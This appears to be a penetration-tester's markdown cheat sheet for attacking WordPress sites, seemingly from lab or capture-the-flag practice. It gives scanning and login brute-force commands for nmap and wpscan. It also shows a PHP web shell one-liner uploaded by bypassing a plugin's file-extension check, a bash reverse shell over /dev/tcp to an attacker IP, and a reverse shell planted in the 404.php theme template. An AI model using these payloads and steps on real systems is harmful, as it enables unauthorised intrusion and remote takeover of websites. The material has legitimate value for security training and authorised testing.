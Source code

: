 # WordPress

## Enumeration

### Interesting Files

* wp-content
* wp-content/plugins
* wp-admin
* wp-config.php
* wp-trackback.php
* wp-login.php

```
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7346 Sep 30 00:41 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Nov 10 14:18 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  3769 Nov  8 17:01 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 Feb  9 22:51 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 30  2020 wp-cron.php
drwxr-xr-x 25 www-data www-data 16384 Nov 10 14:18 wp-includes
-rwxr-xr-x  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rwxr-xr-x  1 www-data www-data  3900 May 15  2021 wp-load.php
-rwxr-xr-x  1 www-data www-data 45463 Apr  6  2021 wp-login.php
-rwxr-xr-x  1 www-data www-data  8509 Apr 14  2020 wp-mail.php
-rwxr-xr-x  1 www-data www-data 22297 Jun  1  2021 wp-settings.php
-rwxr-xr-x  1 www-data www-data 31693 May  7  2021 wp-signup.php
-rwxr-xr-x  1 www-data www-data  4747 Oct  8  2020 wp-trackback.php
-rwxr-xr-x  1 www-data www-data  3236 Jun  8  2020 xmlrpc.php
```

### Scanning

#### nmap

```bash
nmap -sV --script=http-wordpress-brute.nse,http-wordpress-enum.nse,http-wordpress-users -p80 <IP>

```

#### wpscan

```bash
# Basic Scan
wpscan --url http://10.10.248.119 -o wpscan.log
# Enumerate vulnerable plugins, themes, and users
wpscan --url http://10.10.248.119 -e vp,vt,u -o wpscan.log --api-token <>
# Brute Forcing Login
wpscan --url http://10.10.128.156/ -U users.txt -P /usr/share/wordlists/rockyou.txt -vv
```

## Exploitation

### Plugins

* Can add modified WordPress plugin header to the top of the reverse shell file
* Upload reverse shell plugin as a zip file

#### Responsive Thumbnail Slider

* Using 'php/webapps/37998.txt' we can follow the steps from within the file.
* Responsive Thumbnail Slider --> Manage Images --> Add New
* Create a file called shell.php.jpg with the below contents:
  * `<?php system($_GET["cmd"]) ?>`
* With Burp Intercept on, upload the the file and send the request to Repeater
  * Modify the filename from shell.php.jpg to shell.php and send the modified request
* Turn off Intercept and back on the web page it should show "New image added successfully"
* There are two new entries of images (initial request and repeater request)
* Clicking on the webshell entry bring us to a new page and gives the link to the image
* Clicking the link brings us to the file and can now get command execution
  * By appending `?cmd=id`
* Now to get a reverse shell by updating the payload value
  * `?cmd=/bin/bash -c "bash -i>& /dev/tcp/<IP>/4444 0>&1"`
  * Note: It may have to be URL encoded

### Themes Templates

#### 404.php

* Edit the 404.php template to include a reverse shell payload
* Appearance --> Editor
* Select 404 Template from the right side pane
* Copy the contents of /usr/share/webshells/php/php-reverse-shell.php and replace the contents in the 404.php template
  * Update the attacker machine IP and port as necessary
  * Then click on the Update File button
* Start a netcat listener and visit a page that doesn't exist
  * `http://demo.ine.local/i-dont-exist`
    * And a reverse shell connection is made
